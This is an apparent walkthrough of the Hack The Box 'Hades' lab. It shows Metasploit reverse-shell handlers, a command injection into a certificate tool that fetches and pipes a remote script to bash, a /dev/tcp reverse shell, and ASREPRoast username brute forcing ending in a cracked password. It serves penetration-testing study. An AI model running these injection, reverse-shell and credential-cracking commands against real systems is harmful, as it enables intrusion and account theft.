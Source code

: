```
# autorun.rc

handler -H tun0 -P 9001 -p linux/x86/meterpreter/reverse_tcp
handler -H tun0 -P 9002 -p windows/x64/meterpreter/reverse_tcp
handler -H tun0 -P 9003 -p windows/x64/meterpreter/reverse_tcp
use auxiliary/server/socks5
run -j
back
```

```bash
#!/usr/bin/env bash
# ssltools_shell.sh

(sleep 0.1; curl -sk https://10.13.38.16/ssltools/certificate.php -d 'name=10.13.38.16/$(curl${IFS}10.14.14.37/rev|bash)' > /dev/null &)
rlwrap nc -lvnp 31337
```

```bash
#!/usr/bin/env bash
# rev

bash -i >& /dev/tcp/10.14.14.37/31337 0>&1
```

Also note that in some places where any type of non-permanent crypto stuff values are metioned (machine account passwords, hashes, etc.), there can be mismatches between the actual values of this crypto stuff. The Hades Endgame was being reset very often so some of these non-permanent secrets were being changed every time the lab started from its factory default state.

# 2. Guardian

## ASREPRoast

It was not possible to request all the SPNs from AD for this lab because LDAP authentication was required so I was not able to run `GetNPUsers.py htb/` just on slash (crashes with `[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A37, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563` exception).

So I used `seclists/Usernames/Names/names.txt` wordlist to brute force user account names one by one:

```
root@kali:$ export KRB5CCNAME=; proxychains4 -q GetNPUsers.py htb/ -dc-ip 192.168.3.203 -no-pass -usersfile /usr/share/seclists/Usernames/Names/names.txt -request -format hashcat -outputfile asrep.hash -debug |tee getnpusers.log
root@kali:$ cat getnpusers.log |grep -v 'Client not found in Kerberos database'
[-] User dev doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] [Errno Connection error (192.168.3.203:88)] [Errno 111] Connection refused
[-] [Errno Connection error (192.168.3.203:88)] [Errno 111] Connection refused
[-] User kalle doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lee doesn't have UF_DONT_REQUIRE_PREAUTH set

root@kali:$ cat asrep.hash
$krb5asrep$23$bob@HTB:e5924ba07340e93fe3c24a3c8a186180$1fe8d6bd3557b3e6050e85350c00063862b87d42dcc7779d23b6d2dcb0ec3c41febc11fbb201fc98cee6ead406737af9d090a08e554a23d2ae00fb19d099b3753e8e9402d1254f51626d1c73182dc68cccc700a918cd80daf8c2f19dcb2b9b9d8f296ea3f60c3e7b9e8010584bf3ac98b986f470d9d8225158cb9a151c8777e1cbac86990f3b0da350b6e2676d8ad195a437b2df76e04e76362ef0078c55fef801e7bb005cdf93fcb939dc18626374aaebb451e179a9bc60bd349ad28b19c7622fe64aa00819860ab0b81bb482175c45b8973060b485da378721cc3390d89b41

Cmd > ./hashcat64.exe -m 18200 -a 0 -r rules/best64.rule hashes/asrep.hash seclists/Passwords/*
bob:Passw0rd1!
```